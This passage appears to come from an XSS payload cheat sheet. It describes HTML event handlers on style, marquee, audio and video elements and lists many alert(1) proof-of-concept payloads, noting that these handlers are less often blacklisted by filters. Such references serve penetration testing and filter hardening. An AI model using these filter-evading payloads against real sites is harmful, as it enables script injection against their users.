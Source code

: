 ### Style Elements
Although the `onload` event also tends to be identified as a dangerous phrase, if it isn't, it can also be used with the `style` element - something not frequently seen.

**Example:**
```html
<style onload=alert(1) />
```

### Marquee Elements
The marquee element has a use other than being a throw back to web development in 1999 - it also supports a number of event handlers that can be used to trigger a payload:

* `onbounce`: Fires when the marquee has reached the end of its scroll position. It can only fire when the `behavior` attribute is set to `alternate`.
* `onfinish`: Fires when the marquee has finished the amount of scrolling that is set by the loop attribute. It can only fire when the loop attribute is set to some number that is greater than 0.
* `onstart`: Fires when the marquee starts scrolling.

**Examples:**
```html
<marquee behavior="alternate" onstart=alert(1)>hack the planet</marquee>
<marquee loop="1" onfinish=alert(1)>hack the planet</marquee>
<marquee onstart=alert(1)>hack the planet</marquee>
```

### Media Elements
The use of the `audio` and `video` elements to deliver XSS payloads is rarely acknowledged. Both these elements make available several event handlers that are less likely to be blacklisted.

In particular:

* `oncanplay`: The event occurs when the browser can start playing the media (when it has buffered enough to begin)
* `ondurationchange`: The event occurs when the duration of the media is changed
* `onended`: The event occurs when the media has reached the end
* `onloadeddata`: The event occurs when media data is loaded
* `onloadedmetadata`: The event occurs when meta data (like dimensions and duration) are loaded
* `onloadstart`: The event occurs when the browser starts looking for the specified media
* `onprogress`:	The event occurs when the browser is in the process of getting the media data (downloading the media)
* `onsuspend`: The event occurs when the browser is intentionally not getting media data

**Examples:**
```html
<audio oncanplay=alert(1) src="/media/hack-the-planet.mp3" />
<audio ondurationchange=alert(1) src="/media/hack-the-planet.mp3" />
<audio autoplay=true onended=alert(1) src="/media/hack-the-planet.mp3" />
<audio onloadeddata=alert(1) src="/media/hack-the-planet.mp3" />
<audio onloadedmetadata=alert(1) src="/media/hack-the-planet.mp3" />
<audio onloadstart=alert(1) src="/media/hack-the-planet.mp3" />
<audio onprogress=alert(1) src="/media/hack-the-planet.mp3" />
<audio onsuspend=alert(1) src="/media/hack-the-planet.mp3" />

<video oncanplay=alert(1) src="/media/hack-the-planet.mp4" />
<video ondurationchange=alert(1) src="/media/hack-the-planet.mp4" />
<video autoplay=true onended=alert(1) src="/media/hack-the-planet.mp4" />
<video onloadeddata=alert(1) src="/media/hack-the-planet.mp4" />
<video onloadedmetadata=alert(1) src="/media/hack-the-planet.mp4" />
<video onloadstart=alert(1) src="/media/hack-the-planet.mp4" />
<video onprogress=alert(1) src="/media/hack-the-planet.mp4" />
<video onsuspend=alert(1) src="/media/hack-the-planet.mp4" />
```
